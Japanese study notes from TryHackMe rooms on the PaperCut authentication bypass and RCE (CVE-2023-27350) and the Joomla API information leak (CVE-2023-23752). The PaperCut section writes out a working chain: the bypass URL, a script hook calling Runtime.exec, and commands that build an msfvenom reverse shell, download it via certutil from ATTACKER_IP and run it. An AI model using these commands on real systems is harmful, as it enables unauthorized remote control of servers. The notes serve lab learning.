 https://tryhackme.com/room/papercut

- PaperCut < `20.1.7`, `21.2.11`, `22.0.9`
- 認証バイパスの脆弱性。
- 管理コンソールにスクリプト機能があり RCE につながる。
- サンドボックス設定を無効にすると、スクリプトが Java ランタイムに直接アクセスできる。
- PrintCut サービスは、NT AUTHORITY\SYSTEM または root ユーザーで実行される。

認証バイパス方法は、下記 URL にアクセスするだけ。

`http://<ip>:9191/app?service=page/SetupCompleted`

その後、`Printers -> Template printer -> Scripting -> Enable print script` を有効化する。

下記のようにコマンドを実行できる。

```js
function printJobHook(inputs, actions) {
  // your script here
}
java.lang.Runtime.getRuntime().exec("ping.exe ATTACKER_IP");
```

CLI でコマンド実行できるエクスプロイト

https://github.com/horizon3ai/CVE-2023-27350/blob/main/CVE-2023-27350.py

```sh
# リバースシェルを作成してHTTPサーバー起動
msfvenom -p windows/shell/reverse_tcp -f exe LHOST=ATTACKER_IP LPORT=4444 -o shell.exe
python3 -m http.server 8080

# リバースシェルのリッスン
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/shell/reverse_tcp; set LHOST ATTACKER_IP; set LPORT 4444; exploit"

# ダウンロード＆実行
python3 CVE-2023-27350.py -u http://10.10.210.29:9191 -c "certutil.exe -urlcache -f http://ATTACKER_IP:8080/shell.exe shell.exe"
python3 CVE-2023-27350.py -u http://10.10.210.29:9191 -c "cmd.exe /c shell.exe"
```

## CVE-2023-23752 (Joomify)

https://tryhackme.com/room/joomify

- Joomla! `4.0.0 ~ 4.2.7`
- Joomla! は、第 5 位のコンテンツ管理システム（CMS）
- API エンドポイントで GET パラメータの public を true にすることで認証なしでアクセスできるようになる。
- 情報漏洩の脆弱性で、重大度は Medium。

api 配下のフォルダ構造を脆弱性のあるバージョンをダウンロードして調べることが可能。  
https://downloads.joomla.org/cms/joomla4/4-1-0

API リスト  
https://docs.joomla.org/J4.x:Joomla_Core_APIs

エクスプロイト
